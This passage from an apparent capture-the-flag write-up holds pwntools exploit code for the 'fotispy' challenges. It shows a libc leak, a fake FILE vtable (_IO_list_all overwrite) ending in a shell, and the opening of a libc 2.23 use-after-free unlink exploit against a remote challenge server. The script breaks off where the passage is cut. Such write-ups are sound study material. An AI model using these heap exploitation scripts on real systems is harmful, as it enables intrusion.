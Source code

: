 ```py
libc_leak = u64(p.recv(6).ljust(8, b"\x00"))
log.info("libc leak: " + hex(libc_leak))
libc_base = libc_leak - 0x1d3680
log.info("libc base: " + hex(libc_base))

io_list_all = libc_base + 0x1d3660
io_wfile_jumps = libc_base + 0x1CF0A0
# construct vtable
fake_io_addr = heap_base + 0x320 # TODO
fake_user_addr = fake_io_addr + 0x130
add_song("  sh;".ljust(8, "\x00") + "\x00"*8, p64(0)*2, p64(1) + p64(2))
add_song(p32(0) + p64(libc_base + libc.symbols["system"]) + p32(0), p64(0)*2, p64(0)*2)
add_song(p64(0)*2, p64(0)*2, p64(0) + p64(fake_io_addr + 0x30))
add_song(p64(0)*2, p64(0)*2, p32(0) + p64(io_wfile_jumps) + p32(0))
add_song(p64(0)*2, p64(0)*2, p64(fake_io_addr - 0x28) + p64(0))
add_song(p32(0) + p64(io_list_all - 0x20), b"aaa", b"aaa")
payload = b"a"*0x30 + p64(fake_user_addr)
write_file(len(payload), payload)
read_file(0x38)

edit_title(0, p64(fake_io_addr))
# gdb.attach(p)
# pause()
p.recvuntil("Please enter your choice [7]: ")
p.sendline("8")

p.interactive()
```

## fotispy4

Done in around 1.5 hrs.

a libc 2.23 challenge with UAF. The binary is not PIE and there are heap pointers on bss, so we can do the classic unlink attack.

A tip to mark: the chunk containing the fake chunk should not be freed or we will encounter some strange errors.

```py
from pwn import *
context(log_level = 'debug', arch = "amd64", os = "linux")
# p = process("fotispy1")
# p = process("./fotispy4")
p = remote("52.59.124.14", 5194)
libc = ELF("./libc-2.23.so")

def create_user(user, passwd):
    p.recvuntil("Choice: ")
    p.sendline("0")
    p.recvuntil("name: ")
    p.sendline(user)
    p.recvuntil("password: ")
    p.sendline(passwd)

def switch_user(idx):
    p.recvuntil("Choice: ")
    p.sendline("1")
    p.recvuntil("Please select an index [0-15]: ")
    p.sendline(str(idx))

def edit_user(name, passwd):
    p.recvuntil("Choice: ")
    p.sendline("2")
```
